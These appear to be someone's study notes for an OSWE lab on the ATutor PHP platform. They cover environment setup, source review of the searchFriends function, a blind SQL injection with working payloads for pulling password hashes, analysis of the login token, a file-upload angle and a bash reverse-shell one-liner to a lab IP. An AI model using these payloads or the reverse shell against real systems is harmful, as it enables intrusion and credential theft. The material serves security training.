ATutor
Resource: OSWE-Labs-Poc
HTTP server configuration using Kali Linux / hosted a website on Kali
Install docker compose
sudo curl -L "https://github.com/docker/compose/releases/download/v2.33.1/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
sudo mv /usr/local/bin/docker-compose /usr/bin/docker-compose
sudo chmod +x /usr/bin/docker-compose
Please ignore this part, cause I decided to install ATutor on Kali directly instead of using Docker.
Install ATutor on Kali
Set up MySql
sudo service mysql start
# see running services
systemctl list-units --type=service --state=running
ps -aux | grep mysql
service mysql status
mysql -u root -p
CREATE DATABASE IF NOT EXISTS atutor;

sudo tail -f /var/log/apache2/error.log
sudo tail -f /var/log/php_errors.log
Use GitHub Repo directly
$ git clone https://github.com/ngshaohui/ATutor.git
$ sudo systemctl start docker
$ sudo systemctl enable docker
# remove stopped containers
$ sudo docker container prune
# execute Dockerfile
$ sudo docker build -t atutor .
# run docker image
$ sudo docker run -d -p 8080:80 --name atutor-container atutor
# check if the container is running
$ sudo docker ps
visit http://127.0.0.1:8080/install/install.php
 
mkdir -p content/logs
chmod -R 777 content/logs
sudo docker stop atutor-container
sudo docker rm atutor-container
sudo docker run -d -p 8080:80 -v /home/kali/OSWE/ATutor/content/logs:/content/logs --name atutor-container atutor
ATutor in the challenge lab
192.168.162.103 OS:
student / studentlab
MySQL:
root / toor
Web Application:
teacher / teacher123
14.1 Get started
ATutor provides you with 3 levels of access:
-
Student
-
Teacher
-
Administrator
14.1.1. Setting Up the Environment
sudo nano /etc/mysql/my.cnf
[mysqld]
...
general_log_file = /var/log/mysql/mysql.log
general_log = 1
sudo systemctl restart mysql
sudo tail –f /var/log/mysql/mysql.log
Furthermore, since we are dealing with a PHP web application, we can also enable the PHP display_errors directive. With this directive turned on, we will be able to see any PHP errors we trigger in a verbose form, which can aid us during our analysis. To do that, we add the following line to the /etc/php5/apache2/php.ini file:
display_errors = On
Finally, we need to restart the Apache service for the new configuration setting to take effect.
sudo systemctl restart apache2
14.2. Initial Vulnerability Discovery
More specifically, all pages that do not require authentication contain the following line in their source code:
$_user_location = 'public';
$ grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color
scp -r student@atutor.local:/var/www/html/ATutor .
Find writable directories
find /var/www/html/ -type d -perm -o+w
-perm -o+w: Finds items where "others" (non-owner, non-group users) have write (w) permission
Initial discovery - SQLi
mods/_standard/social/index_public.php line 42 searchFriends function is vulnerable.
//if $_GET['q'] is set, handle Ajax.
if (isset($_GET['q'])){
$query = $addslashes($_GET['q']);
//retrieve a list of friends by the search
$search_result = searchFriends($query);
if (!empty($search_result)){
echo '<div class="suggestions">'._AT('suggestions').':<br/>';
$counter = 0;
foreach($search_result as $member_id=>$member_array){
//display 10 suggestions
if ($counter > 10){
break;
}
echo '<a href="javascript:void(0);" onclick="document.getElementById(\'search_friends\').value=\''.printSocialName($member_id, false).'\'; document.getElementById(\'search_friends_form\').submit();">'.printSocialName($member_id, false).'</a><br/>';
$counter++;
}
echo '</div>';
}
exit;
}
searchFriends function is defined in mods/_standard/social/lib/friends.inc.php file. It uses concatenated query strings which allow sql injection attacks.
function searchFriends($name, $searchMyFriends = false, $offset=-1){
global $addslashes;
$result = array();
$my_friends = array();
$exact_match = false;
//break the names by space, then accumulate the query
if (preg_match("/^\\\\?\"(.*)\\\\?\"$/", $name, $matches)){
$exact_match = true;
$name = $matches[1];
}
$name = $addslashes($name);
$sub_names = explode(' ', $name);
foreach($sub_names as $piece){
if ($piece == ''){
continue;
}
//if there are 2 double quotes around a search phrase, then search it as if it's "first_name last_name".
//else, match any contact in the search phrase.
if ($exact_match){
$match_piece = "= '$piece' ";
} else {
//$match_piece = "LIKE '%$piece%' ";
$match_piece = "LIKE '%%$piece%%' ";
}
if(!isset($query )){
$query = '';
}
$query .= "(first_name $match_piece OR second_name $match_piece OR last_name $match_piece OR login $match_piece ) AND ";
}
//trim back the extra "AND "
$query = substr($query, 0, -4);
//Check if this is a search on all people
if ($searchMyFriends == true){
//If searchMyFriend is true, return the "my friends" array
//If the member_id is empty, (this happens when we are doing a search without logging in) then get all members?
//else, use "my friends" array to distinguish which of these are already in my connection
if(!isset($_SESSION['member_id'])){
$sql = 'SELECT member_id FROM '.TABLE_PREFIX.'members WHERE ';
} else {
$sql = 'SELECT F.* FROM '.TABLE_PREFIX.'social_friends F LEFT JOIN '.TABLE_PREFIX.'members M ON F.friend_id=M.member_id WHERE (F.member_id='.$_SESSION['member_id'].') AND ';
$sql .= $query;
$sql .= ' UNION ';
$sql .= 'SELECT F.* FROM '.TABLE_PREFIX.'social_friends F LEFT JOIN '.TABLE_PREFIX.'members M ON F.member_id=M.member_id WHERE (F.friend_id='.$_SESSION['member_id'].') AND ';
}
$sql .= $query;
$rows_friends = queryDB($sql, array(), '', FALSE);
if(count($rows_friends) > 0){
foreach($rows_friends as $row){
if ($row['member_id']==$_SESSION['member_id']){
$this_id = $row['friend_id'];
} else {
$this_id = $row['member_id'];
}
$temp =& $my_friends[$this_id];
$temp['obj'] = new Member($this_id);
if ($searchMyFriends){
$temp['added'] = 1;
}
}
}
unset($this_id); //don't want the following statements to reuse this
return $my_friends;
} else {
/*
* Harris' note:
* IF the 'search my friend' is off, then it should search all members inside that table
* don't know why i did the search inside [friends x members]
* Also this query is gonna pull out all members cept 'myself'
* raised a small problem for public use, cause there is no member_id
* end note;
*/
//$sql = 'SELECT * FROM '.TABLE_PREFIX.'social_friends F LEFT JOIN '.TABLE_PREFIX.'members M ON F.friend_id=M.member_id WHERE ';
$sql = 'SELECT * FROM '.TABLE_PREFIX.'members M WHERE ';
if (isset($_SESSION['member_id'])){
$sql .= 'member_id!='.$_SESSION['member_id'].' AND ';
}
}
$sql = $sql . $query;
if ($offset >= 0){
$sql .= " LIMIT $offset, ". SOCIAL_FRIEND_SEARCH_MAX;
}
$rows_members = queryDB($sql, array());
//Get all members out
foreach($rows_members as $row){
$this_id = $row['member_id'];
//skip empty entry, don't know why there would be empty entry.
//TODO: Trace this. could be a bug in query
if ($this_id == ''){
continue;
}
$temp =& $result[$this_id];
$temp['id'] = $this_id;
//if this person exists in "my friends" list, mark it.
if (isset($my_friends[$this_id])){
$temp['added'] = 1;
}
}
return $result;
}
off')/**/or/**/(select/**/1)=1#
# it block the following query
$match_piece = "LIKE '%%$piece%%' ";
$query .= "(first_name $match_piece OR second_name $match_piece OR last_name $match_piece OR login $match_piece ) AND ";
# can not use -- as comment sign
(first_name LIKE 'off')/**/or/**/(select/**/1)=1# OR second_name $match_piece OR last_name $match_piece OR login $match_piece ) AND
GET /ATutor/mods/_standard/social/index_public.php?q=off%27)%2f**%2for%2f**%2f(select%2f**%2f1)=1%23

When subsequent query is true, the content length of response is 246, otherwise is 0.


I tried to use -- and # in Mysql as comment sign both worked, but when use -- it encountered an error.
off')/**/or/**/(select/**/1)=0/**/--/**/
off%27)%2f**%2for%2f**%2f(select%2f**%2f1)=0%2f**%2f--%2f**%2f
# SQLi payload
off')/**/or/**/(select/**/ASCII(SUBSTRING(password,1,1))/**/from/**/AT_members/**/where/**/member_id=1/**/limit/**/1)=56#

Login as teacher
mysql -u root -ptoor -h localhost
select * from AT_members;
member_id | login | password
1 | teacher | 8635fc4e2a0c7d9d2d9ee40ea8bf2edd76d5757e
themes/default/registration.tmpl.php
function encrypt_password()
{
document.form.password_error.value = "";
err = verify_password(document.form.form_password1.value, document.form.form_password2.value);
if (err.length > 0)
{
document.form.password_error.value = err;
}
else
{
document.form.form_password_hidden.value = hex_sha1(document.form.form_password1.value);
document.form.form_password1.value = "";
/*document.form.form_password2.value = "";*/
}
}
function encrypt_password_login()
{
document.form1.form1_password_hidden.value = hex_sha1(hex_sha1(document.form1.form1_password.value) + "<?php echo $_SESSION['token']; ?>");
document.form1.form1_password.value = "";
return true;
}
In themes/default/registration.tmpl.php when encrypt password it only uses hex_sha1 function once, but when login it uses hex_sha1 twice.
themes/default/login.tmpl.php
/*
* Encrypt login password with sha1
*/
function encrypt_password() {
document.form.form_password_hidden.value = hex_sha1(hex_sha1(document.form.form_password.value) + "<?php echo $_SESSION['token']; ?>");
document.form.form_password.value = "";
return true;
}
token = dc26559a4d84bf00f686f81fe796f2b1bfdb144a
final password hidden value is
include/login_functions.inc.php
if (isset($_POST['token']))
{
$_SESSION['token'] = $_POST['token'];
}
else
{
if (!isset($_SESSION['token']))
$_SESSION['token'] = sha1(mt_rand() . microtime(TRUE));
}
When do POST request, if user set token, it will use the user's setting directly.
File upload vulnerability when creating tests
Hacking Course -> Manage -> Tests and Surveys


mods/_standard/tests/import_test.php
$ims_manifest_xml = @file_get_contents($import_path.'imsmanifest.xml');
Find writable directories
find /var/www/html/ -type d -perm -o+w

include/lib/constants.inc.php
$_config_defaults['illegal_extentions'] = 'exe|asp|php|php3|bat|cgi|pl|com|vbs|reg|pcd|pif|scr|bas|inf|vb|vbe|wsc|wsf|wsh';

bash -c 'bash -i >& /dev/tcp/192.168.45.174/4445 0>&1'

https://en.wikipedia.org/wiki/ASCII